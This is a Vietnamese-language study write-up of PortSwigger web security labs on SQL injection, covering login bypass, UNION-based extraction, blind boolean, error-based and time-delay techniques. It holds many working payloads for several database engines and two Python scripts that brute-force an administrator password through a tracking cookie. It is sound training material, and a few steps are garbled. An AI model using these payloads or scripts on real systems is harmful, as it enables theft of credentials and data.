**Kiến thức về SQL Injection**

```Khái niệm```

- SQL Injection là lỗ hổng bảo mật web cho phép kẻ tấn công can thiệp vào các truy vấn mà ứng dụng thực hiện đối với CSDL của nó 

```Nguyên nhân```

- Do ứng dụng ghép trực tiếp input của user vào câu lệnh query
- Không validate dữ liệu đầu vào 

```Tác động```

- Bypass đăng nhập 
- Dump toàn bộ database (user,password)
- Sửa/xóa dữ liệu 
- RCE
- Chiếm quyền admin hệ thống 

```Điều kiện xảy ra```

- Input user được đưa vào câu truy vấn 
- Backend xử lý input không an toàn 
- Không có cơ chế escaping đúng 

```LAB: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data```

Mục tiêu là làm xuất hiện các sản phẩm chưa phát hành 


- Ta bắt gói tin trong burp và gửi đến repeater 


Ta thử gõ cách test lỗ hổng SQLI bằng các thêm '-- vào đằng sau 


-> Ta nhận thay server trả về 200 OK 

-> Có lỗ  hổng SQLI ở đây 

Ta bypass bằng cách sau 


Bypass: ?category='+OR+1=1--

Ở đây khi user chọn 1 categories, application sẽ sử dụng 1 query như:

SELECT * FROM products WHERE category = 'Gifts' AND released = 1

Sau khi dùng dấu ' để đóng lại thì ở đằng sau là  1 mệnh đề luôn đúng thì các sản phẩm ẩn sẽ hiện ra 

-------------------------------------------------------------------------------------------

```LAB: SQL injection vulnerability allowing login bypass```    

Mục tiêu là tấn công để đăng nhập vào tài khoản administrator

Ta đăng nhập bằng tài khoản không hợp lệ để bắt gói tin 


Sau đó gửi đến repeater

Dựa vào request ta đoán rằng khi login, application sẽ kiểm tra tài khoản bằng cách gửi query tới server theo lệnh như: 

SELECT * FROM users WHERE username = 'username' AND password = 'password'

Ta thử bypass bằng cách 


Response trả về 302 Not Found => Bypass thành công 

-------------------------------------------------------------------------------------------

```Union Attack```

Union có thể cho thêm 1 hoặc nhiều SELECT query và gán nó vào kết quả của query ban đầu 

Ví dụ: SELECT a, b FROM table1 UNION SELECT c, d FROM table2

SQL query này sẽ trả về kết quả đơn được cài đặt với 2 cột và bao gồm 4 hàng giá trị a, b của bảng 'table1' và c, d của 'table2' 

Để tiến hành 1 cuộc tấn công SQL Injection UNION Attack cần đảm bảo đạt được 2 yêu cầu 

- Biết được số cột được trả về từ query ban đầu

- Số cột được trả về từ query ban đầu là một loại data phù hợp để giữ kết quả từ việc inject query 

Cách để xác định được số lượng cột 

Cách 1: Dùng UNION NULL


Cách 2: DÙng ORDER BY x 

Nếu server trả về status code = 500 

=> số lượng cột bằng x - 1

Nếu số lượng cột trả về không khớp thì database có thể trả về lỗi như là: 

All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.

-------------------------------------------------------------------------------------------

```LAB: SQL injection UNION attack, determining the number of columns returned by the query```
PRACTITIONER

Mục tiêu: Xác đinh số lượng cột được trả về 

Ta vào bài lab, click vào một danh mục sau đó dùng burp suite chặn request đó và gửi đến 

repeater 


Ta thử chèn thêm câu lệnh select bằng cách sử dụng UNION để ghép 2 câu lệnh select 

Thử thêm NULL đến khi nào server trả về 200 OK 


=> Ta đã hoàn thành bài LAB

-------------------------------------------------------------------------------------------

```SQL Injection cheat-sheat:```

- On Oracle, mỗi SELECT phải sử dụng FROM và chỉ định 1 table có sẵn.

- Có một bảng tích hợp trên Oracle có tên ‘Dual’ có thể được sử dụng cho mục đích này. Vì vậy, các truy vấn được inject trên Oracle sẽ cần trông giống như:

...' UNION SELECT NULL FROM DUAL--

=> Dual table sử dụng để chứa các giá trị NULL.

-------------------------------------------------------------------------------------------

```LAB: SQL injection UNION attack, finding a column containing text```

Mục tiêu: Xác định cột có chứa dữ liệu 

Ta làm như bài trước nhưng lần này ta xác định số cột bằng cách dùng ORDER BY 


=> Ta xác định được số cột ở bài này là 3 

Giờ ta sẽ dùng UNION SELECT để xác định cột chứa dữ liệu 


=> Như vậy khi ta thay NULL ở cột thứ 2 thành 'a' thì response trả về 200 OK và xuất hiện chuỗi string 

Giờ ta chỉ cần thay a bằng chuỗi string đó và gửi lại request là hoàn thành bài lab   

-------------------------------------------------------------------------------------------

Khi đã xác định được số cột được trả về bởi truy vấn ban đầu và tìm ra những cột có thể chứa dữ liệu chuỗi, ta có thể truy xuất các dữ liệu cần thiết 

Giả sử rằng:

- Truy vấn ban đầu trả về 2 cột, cả 2 cột đều chứa dữ liệu dạng chuỗi 

- Database chứa 1 bảng có tên là users với các cột là username và password

Trong ví dụ này ta có thể truy xuất nội dung của users bằng cách nhập dữ liệu: 

' UNION SELECT username, password FROM users--

-------------------------------------------------------------------------------------------

```LAB: SQL injection UNION attack, retrieving data from other tables```


Mục tiêu: Thực hiện injection UNION attack để trích xuất tất cả người dùng và mật khẩu, sau đó đăng nhập vào tài khoản của administrator


Ta vào bài lab, sau đó chọn 1 danh mục rồi gửi request đó đến repeater 

Theo như đầu bài ta đã biết được bài lab này có 1 bảng tên là users và có 2 cột là username và password 

Ta dùng payload này để inject vào request và gửi đi: '+UNION+SELECT+username,+password+FROM+users--


Và ta đã thấy được tài khoản mật khẩu của administrator

-------------------------------------------------------------------------------------------
Trong một số trường hợp, truy vấn chỉ trả về một cột duy nhất, lúc đó ta cần ghép cột lại 

Trên Oracle: ' UNION SELECT username || '~' || password FROM users--

Kết quả trả về có dạng: 


Cách xác định phiên bản của database 


Cách ghép cột của từng version 


----------------------------------------------------------------------------------------------------------

```LAB: SQL injection UNION attack, retrieving multiple values in a single column```

Mục tiêu: Thực hiện injection UNION attack để trích xuất tất cả người dùng và mật khẩu, sau đó đăng nhập vào tài khoản của administrator

Đầu tiên ta sẽ xác định số cột của bài bằng cách dùng ORDER BY x 


=> Xác định được là có 2 cột

Dựa vào đây ta xác đinh được rằng chỉ cột thứ 2 có giá trị


Bây giờ ta cần xác định version của database trong bài này bằng cách thử lần lượt từng payload


Ta xác định được bài này dùng PostgreSQL 

Sau đó ta dùng payload sau để hoàn thành bài lab: '+UNION+SELECT+NULL,+username+||+'@'+||+password+FROM+users--


-------------------------------------------------------------------------------------------

Cách kiểm tra phiên bản database 


Cách nối 2 string 


Cách lấy ký tự trong 1 string


Cách liệt kê các bảng hiện có trong database và các cột mà các bảng đó chứa


-------------------------------------------------------------------------------------------

```LAB: SQL injection attack, listing the database contents on non-Oracle databases```

Mục tiêu: Trích xuất dữ liệu để lấy được tài khoản administrator

Đầu tiên ta cần xác định số cột của bài lab này, để từ đó ta xác định database version trong bài này là gì 


=> Ta xác định được bài này có 2 cột 

Tiếp theo ta cần xác định database version bằng cách thử lần lượt từng payload


=> Ta xác định được bài này dùng PostgreSQL

Tiếp theo ta sẽ liệt kê các bảng hiện có trong bài lab này bằng cách inject thêm đoạn payload sau: '+UNION+SELECT+table_name,+'a'+FROM+information_schema.tables--


Ta đã thấy tên các bảng và giờ ta cần tìm bảng chứa dữ liệu về tài khoản và mật khẩu, ta thử xem 1 bảng đáng nghi bằng cách chèn payload:

'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name+=+'users_wcirof'--


Ta thấy có 2 cột đáng nghi, giờ ta xem data của 2 cột đó xem có gì không bằng cách chèn payload:

'+UNION+SELECT+username_xkshtu,+password_jflbzx+FROM+users_wcirof--


=> Ta đã thấy được tài khoản mật khẩu của administrator

-------------------------------------------------------------------------------------------------------------------

```Blind SQL Injection```

Lỗi tấn công SQL injection mù xảy ra khi một ứng dụng dễ bị tấn công SQL Injection, nhưng phản  hồi HTTP của nó không chứa kết quả của truy 

vấn SQL liên quan 

Ứng dụng sử dụng cookie TrackingID để theo dõi người dùng. Khi người dùng gửi yêu cầu đến website, giá trị của cookie sẽ được đưa trực tiếp 

vào câu truy vấn SQL:

SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'

Ứng dụng sẽ kiểm tra xem TrackingId có tồn tại trong cơ sở dữ liệu hay không. Nếu tồn tại, website sẽ hiển thị thông báo:

- Welcome back

Ngược lại, nếu không tồn tại thì thông báo này sẽ không xuất hiện.

Ví dụ, kẻ tấn công sửa cookie thành: ' OR 1=1--

Khi đó câu truy vấn sẽ trở thành:

SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '' OR 1=1--

Điều kiện 1=1 luôn đúng nên truy vấn sẽ trả về dữ liệu. Website sẽ hiểu rằng người dùng hợp lệ và hiển thị thông báo:

- Welcome back

Ngược lại, nếu sử dụng: ' OR 1=2--

Thì điều kiện 1=2 luôn sai, truy vấn không trả về dữ liệu và website sẽ không hiển thị thông báo "Welcome back".

Giả sử có một bảng là Users với 2 cột là Username và Password và có 1 user gọi là Administrator. Ta có thể xác định password cho user đó bằng 

cách gửi một chuỗi input để kiểm tra password từng ký tự một

Để làm điều này, bắt đầu với input sau:

- xyz'      

Tin nhắn trả về "Welcome back" chỉ ra rằng điều kiện tiêm là đúng vì vậy ký tự đầu tiên của mật khẩu lớn hơn m

Tiếp theo ta gửi input:

xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't

Không có tin nhắn trả về "Welcome back" chỉ ra rằng điều kiện tiêm là sai vì vậy ký tự đầu tiên của mật khẩu nhỏ hơn t 

Cuối cùng ta gửi input:

xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's

Có tin nhắn trả về "Welcome back" ta xác nhận rằng ký tự đầu tiên của mật khẩu là 's'

=> Ta cứ tiếp tục như vậy cho đến khi tìm được mật khẩu 

--------------------------------------------------------------------------------------------------------

```LAB: Blind SQL injection with conditional responses```



- Database chứa một bảng gọi là users với 2 cột username và password

Mục tiêu: Cần khi thác lỗ hổng Blind SQL injection để tìm ra password của administrator

Đầu tiên khi ta đăng nhập vào trang web và chọn 1 category bất kỳ thì ta thấy trên màn hình hiện dòng chữ "Welcome back'



Và trong request có 1 header là TrackingID 



Và TrackingID ở đây có thể dùng để theo dõi người dùng/phiên truy cập 

Và ở đây có thể người ta đang code theo kiểu: SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'

Và giờ ta sữ thử kiểm tra suy đoán của mình bằng cách inject vào sau TrackingID một payload: '+AND+1+=+0-- và '+AND+1+=+1-- để xem server trả 

về response như thế nào



=> Không trả về chuỗi 'welcomeback'



=> Có trả về chuỗi 'Welcome back'

Như vậy khi câu query là True thì sẽ có chuỗi trả về còn khi là False thì không

Giờ ta sẽ kiểm tra thử xem trong database có table nào tên là users không bằng cách chèn payload: '+AND+(SELECT+'a'+FROM+users+LIMIT+1)='a'--



=> Có 'Welcome back' như vậy là có 1 table tên users 

Giờ ta sẽ thử xem trong bảng users đó có cột usename = 'administrator' hay không bằng cách chèn: '+AND+(SELECT+'a'+FROM+users+WHERE+username='administrator')='a'--



=> Có 1 user tên 'administrator'

Tiếp theo ta sẽ thử đoán xem password cảu administrator có bao nhiêu ký tự bằng cách chèn: '+AND+(SELECT+'a'+FROM+users+WHERE+username%3d'administrator'+AND+LENGTH(password)=20)%3d'a'--


Sau khi thử nhiều số ta đã tìm ra được password có 20 ký tự 

Và giờ ta sẽ đi brute force password của administrator bằng cách dùng script:

```python
import requests
import string

URL = "https://0a4700c70486bfdc80e15320001a0077.web-security-academy.net/"

cookies = {
    "session" : "2jm9O8AiP0cEXt891ojntXzKGSyrJIo7",
    "TrackingId" : "X3qrfxDah3FET9LN"
}

password = ""
trackingID_original = "X3qrfxDah3FET9LN"

CHARSET = string.ascii_letters + string.digits

for i in range(1,21):

    Found = False

    for c in CHARSET:

        pay_load = (trackingID_original + f"' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), {i}, 1) = '{c}'--")
        cookies["TrackingId"] = pay_load

        response = requests.get(URL, cookies=cookies)

        if "Welcome back!" in response.text:
            Found = True
            password += c
            print(f"[+] Found character: {i} : {c}")
            break
    if not Found:
        print(f"[!] Not Found")
        break

print(f"Password is {password}")
```

-------------------------------------------------------------------------------------------------------------------

Cách tiếp theo để khai thác lỗ hổng blind sql này là:

- xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a

- xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a

Sử dụng kỹ thuật này ta có thể truy xuất dữ liệu bằng cách kiểm tra từng ký tự một

- xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a'

END FROM Users)='a

-------------------------------------------------------------------------------------------------------------------

```LAB: Blind SQL injection with conditional errors```

- Mục tiêu: Cần khai thác lỗ hổng Blind SQL injection để tìm ra password của administrator

- Khi ta thử thêm ' vào đằng sau trường TrackingId thì bên response trả về báo lỗi 



- Còn khi chèn '' thì không báo lỗi 



=> Có lỗ hổng SQL injection ở đây. Lỗ hổng dựa trên thông báo lỗi trả về 

- Nhưng không giống như bài trước, bài này ko có thông báo 'Welcome back' trả về

- Giờ ta sẽ xác định database version của bài này là gì, vì mỗi version có câu lệnh khác nhau 



=> Bài này dùng oracle 

- Giờ ta kiểm tra xem có bảng users trong database hay không 

Payload: ' AND (SELECT 1 FROM users WHERE ROWNUM = 1) = 1--

Dùng ROWNUM là vì Oracle không có LIMIT



=> Xác nhận có users table

- Tiếp theo ta kiểm tra xem có user = administrator hay không

Payload: ' AND (SELECT 1 FROM users WHERE username = 'administrator') = 1--



=> Xác nhận có username = administrator

- Tiếp theo ta xác định độ dài của password 

- Payload: '||(SELECT CASE WHEN LENGTH(password) > 1 THEN to_char(1/0) ELSE '' END FROM users WHERE username = 'administrator')--

- Payload trên có nghĩa là nếu password > 1 thì sẽ trả về 1/0 

=> Từ đó gây lỗi => response trả về 500 internal error 

- Còn nếu không lỗi sẽ trả về 200 OK 



- Giờ ta chỉ cần dùng intruder để tìm ra độ dài password (có thể làm thủ công bằng cách thay giá trị của 1 bằng số khác)



=> Password dài 20 ký tự thì ko gây lỗi => password dài 20 ký tự 

- Giờ ta sẽ viếp script để brute_force ra password 

```python
import requests 
import string 

URL = "https://0a2c0004041fd51180f20804003d00a8.web-security-academy.net/"

cookies = {
    "session" : "VSNCkSaWCrgFyYxrWuJ6CV3YUtT472Z9",
    "TrackingId" : "x80GsSkKejryN2Oy"
}

CHARSET = string.ascii_letters + string.digits 

TrackingId_original = ""

password = ""

for i in range(1,21):
    found = False
    for c in CHARSET:

        payload = TrackingId_original + f"' || (SELECT CASE WHEN SUBSTR(password, {i}, 1) = '{c}' THEN to_char(1/0) ELSE '' END FROM users WHERE username = 'administrator')--"

        cookies["TrackingId"] = payload

        response = requests.get(URL, cookies=cookies)

        if response.status_code == 500:
            password += c

            found = True

            print(f"[+] Found charactor {i} : {c}")

            break
        else:
            print(f"[-] Charactor {i} not match in {c}")
    
    if(found == False):
        print(f"[-] Not Found")
        break

print(f"Password is {password}")
```
-----------------------------------------------------------------------------------------------------------------------------------------------

- Trích xuất dữ liệu thông qua tin nhắn lỗi hiển thị 



----------------------------------------------------------------------------------------

```LAB: Visible error-based SQL injection```

- Mục tiêu: Cần khi thác lỗ hổng Blind SQL injection để tìm ra password của administrator

Khi ta thử chèn ' và đằng sau trường TrackingId thì ta thấy thông báo lỗi trả về như sau 



=> Ta biết được câu query có dạng: ```SQL SELECT * FROM tracking WHERE id = '0Fhv4wPNNEk31yt4''``` và input đang mong muốn là dạng char 

=> Và ta thấy rằng response để chỉ cho ta lỗi ở đâu, lợi dụng điều này ta sẽ trích xuất được dữ liệu 

=> Ta sẽ thử dùng CAST để ép kiểu dữ liệu

```Payload: ' AND CAST((SELECT 1) AS int)-- ```



=> Thông báo lỗi trả về là: đối số của toán tử AND phải là boolean, giờ ta sẽ sửa lại payload sao cho phù hợp 

```Payload: ' AND 1 = CAST((SELECT 1) AS int)--```



=> Lúc này không còn lỗi nữa, điều này xác nhận đây là truy vấn lớp lệ

- Tiếp theo ta sẽ mong muốn làm sao cho response trả về tiết lộ được username 

```Payload: ' AND 1 = CAST((SELECT username FROM users) AS int)--```



- Ta nhận được thông báo rằng câu query quá dài, giờ ta sẽ cắt bớt đi bằng cách xóa parameter của TrackingId đi 



- Bây giờ lại có thông bão lỗi rằng có nhiều hơn 1 hàng trả về, ta chỉ cần thêm LIMIT 1 là được

```Payload: ' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--```



=> Ta đã thấy lộ thông tin username là administrator

- Tiếp theo ta sẽ làm cho response tiết lộ ra password

```Payload: ' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--```



=> Trích xuất thành công password 

-----------------------------------------------------------------------------------------------

```Exploiting blind SQL injection by triggering time delays```

- Có thể khai thác blind sql injection bằng cách tạo ra độ trễ thời gian tùy thuộc vào điều kiện đúng hay là sai 

- Các kỹ thuật kích hoạt độ trễ thời gian phụ thuộc vào loại database đang được sử dụng 

```'; IF (1=2) WAITFOR DELAY '0:0:10'--```
```'; IF (1=1) WAITFOR DELAY '0:0:10'--```

- Payload đầu tiên không gây ra độ trễ vì điều kiện 1=2 là sai
- Payload thứ 2 gây ra độ trễ 10 giây vì điều kiện 1=1 là đúng

- Sử dụng kỹ thuật này, ta có thể truy xuất dữ liệu bằng cách kiểm tra từng ký tự một: 

```'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--```

- Mỗi version database có một cách làm khác nhau

- Các payload sau có thể gây ra độ trễ thời gian 10s 

- Oracle:	dbms_pipe.receive_message(('a'),10)

- Microsoft:	WAITFOR DELAY '0:0:10'

- PostgreSQL:	SELECT pg_sleep(10)

- MySQL:	SELECT SLEEP(10)

- Ta có thể kiểm tra một điều kiện boolean và kích hoạt độ trễ thời gian nếu điều kiện đó đúng 

- Orcale: SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual

- Microsoft: IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'

- PostgreSQL: SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END

- MySQL: SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')

------------------------------------------------------------------------------------------------------

```LAB: Blind SQL injection with time delays and information retrieval```

- Mục tiêu: Đăng nhập vào tài khoản administrator

- Ta xác định được bài lab nàu dùng version database là PostgreSQL vậy nên ta sẽ dùng payload để xem có độ trễ thời gian ở đây không

```Payload: '%3BSELECT+CASE+WHEN+(1%3d1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--```



=> Ta thấy response trả về trễ 10s 

=> Xác nhận có lỗ hổng Blind SQL Injection ở đây 

- Giờ ta thay payload trên từ 1=1 sang 1=2 để kích hoạt False trong câu query thì thấy response trả về ngay lập từ 



=> Xác nhận rằng ta có thể dùng việc delay thời gian này để xác định điều kiện SQL đúng hay là sai 

- Tiếp theo ta kiểm tra xem có tồn tại username = administrator hay không 

```Payload: '%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--```



=> Trễ 10 giây => xác định rằng có username = 'administrator'

- Tiếp theo ta xác định độ dài password

```Payload: '%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>20)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--```



=> Trả về ngay lập tức => password có 20 ký tự 

Giờ ta sẽ dùng Intruder để brute_force password

```Payload: '%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--```



---------------------------------------------------------------------------------------------------------


